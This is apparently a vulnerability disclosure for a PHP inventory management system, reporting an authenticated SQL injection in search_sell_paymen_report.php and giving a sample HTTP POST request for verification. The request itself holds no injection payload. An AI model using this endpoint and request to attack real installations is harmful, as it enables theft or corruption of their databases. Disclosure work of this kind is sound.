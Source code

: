 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/ajax/search_sell_paymen_report.php file, and you can see the concatenation of SQL statements in the code snippet.

![image-20250326150300578](images/image-20250326150300578.png)

![image-20250326150311785](images/image-20250326150311785.png)



Vulnerability verification：

```
POST /ample/app/ajax/search_sell_paymen_report.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie:  PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

issuedate=3&customer=all
```

 ![image-20250326150254673](images/image-20250326150254673.png)



































